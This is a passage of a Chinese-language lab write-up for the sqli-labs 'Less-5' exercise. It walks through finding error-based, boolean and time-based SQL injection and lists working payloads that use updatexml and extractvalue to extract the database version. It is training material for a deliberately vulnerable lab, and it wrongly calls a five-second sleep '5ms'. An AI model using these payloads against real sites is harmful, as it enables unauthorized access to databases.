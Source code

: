 ![image](img/less-4.2.png)

## Less-5

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，不能用联合查询方式　
输入参数后面带　单引号　，页面报错，说明存在报错注入漏洞　
有报错可以用报错注入方法。

+ 通过回显的报错信息　可知闭合方式为　：单引号：‘ 字符型注入

+ 注入测试：
```bash
    ?id=3' --+　　　＃页面很和谐　，注释了　单引号后面　的ＳＱＬ　语句
    ?id=3' and 1=１--+
    ?id=3' and 1=2 --+　　　　＃两次ｐａｙｌｏａｄ输入后，页面显示不同，说明存在布尔类型注入漏洞
    ?id=3' and sleep(5) --+　　　＃页面时间县　有５ｍｓ　　，　说明存在延时类型注入　漏洞
```

+ 注入Payload:
```bash
    ?id=3' and length(database())=8 --+　＃布尔类型注入方法　１＝２　
    ?id=3' and updatexml(1,concat(0x5e,(select version()),0x3a),1)--+
    ?id=3' and updatexml(1,concat('^',(select version()),'^'),1)--+    #报错注入方法
    ?id=3' and extractvalue(1,concat('^',(select version()),'^'))--+
```